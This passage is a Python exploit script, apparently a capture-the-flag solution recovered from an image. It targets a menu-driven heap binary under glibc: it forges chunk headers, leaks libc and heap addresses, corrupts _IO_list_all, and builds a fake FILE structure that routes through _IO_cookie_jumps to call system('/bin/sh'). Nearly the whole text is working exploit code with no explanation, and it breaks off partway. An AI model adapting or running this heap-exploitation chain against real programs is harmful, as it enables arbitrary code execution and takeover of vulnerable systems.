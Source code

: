 ```python

new(0x18)

edit(0x8,p64(0x431))
edit(0x438,p64(0x21))
edit(0x458,p64(0x421))
edit(0x878,p64(0x21))
edit(0x898,p64(0x21))

delete(0x10)

new(0x428)
delete(0x10)

edit(0x10,'\x10')
show()

libc_base=u64(r.recvuntil('\x7f')[-6:]+p16(0))-libc.sym['__malloc_hook']-0x80
success("libc_base: "+hex(libc_base))

environ=libc_base+libc.sym['environ']
exit=libc_base+libc.sym['exit']
system=libc_base+libc.sym['system']
_IO_cleanup=libc_base+0x8ef80
IO_list_all=libc_base+libc.sym['_IO_list_all']
tls=libc_base-0x2890
#tls=libc_base+0x1ed5f0
bin_sh=libc_base+0x1abf05
_IO_cookie_jumps=libc_base+0x1e1a20
top_chunk=libc_base+libc.sym['__malloc_hook']+0x70
__printf_arginfo_table=libc_base+0x1eb218
__printf_function_table=libc_base+0x1e35c8

edit(0x10,'\x00')
delete(0x460)

edit(0x10,'a'*0x8)
show()
r.recvuntil('a'*0x8)
heap=u64(r.recvuntil("1. alloc",drop=True).ljust(0x8,'\x00'))-0x450
success("heap: "+hex(heap))

edit(0x10,p64(top_chunk))
new(0x418)

edit(0x28,p64(IO_list_all-0x20))
delete(0x460)
new(0x1000)

fake_IO_struct=''
fake_IO_struct+=p64(0xfbad1800)
fake_IO_struct+=p64(0)*0x4
fake_IO_struct+=p64(1)
fake_IO_struct+=p64(0)*0x15
fake_IO_struct+=p64(_IO_cookie_jumps+0x70-0x18)
fake_IO_struct+=p64(bin_sh)
fake_IO_struct+=p64(rol(system^(heap+0xDA0),0x11))

edit(0x898,p64(0x471))
edit(0xD08,p64(0x21))
edit(0xD28,p64(0x461))
edit(0x1188,p64(0x21))
edit(0x11A8,p64(0x21))
```